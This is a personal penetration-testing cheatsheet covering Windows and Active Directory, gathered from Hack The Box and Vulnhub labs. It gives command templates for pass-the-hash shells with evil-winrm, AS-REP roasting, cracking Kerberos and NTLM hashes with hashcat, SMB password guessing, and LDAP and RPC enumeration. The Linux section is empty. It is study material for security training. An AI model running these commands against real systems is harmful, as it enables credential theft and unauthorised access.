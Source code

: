 # pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/) and [Vulnhub](https://www.vulnhub.com/) experience.

## Windows

- MUST SEE: [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [LOLBAS](https://lolbas-project.github.io/#) _(GTFOBins version Windows)_
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) _(Une sorte de LinEnum pour Windows)_
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### Shell

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\Users\svc_loanmgr\Videos> NET USER # list users
```

### LDAP

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat) and [**hackndo** - kerberos as-rep roasting (fr)](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Samba

- `smbclient -L //<IP>/<Sharename> -U "username%password"`
- `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### RPC

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Misc

- Crack NTML hashes: `hashcat -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`

## Linux

> **TODO**
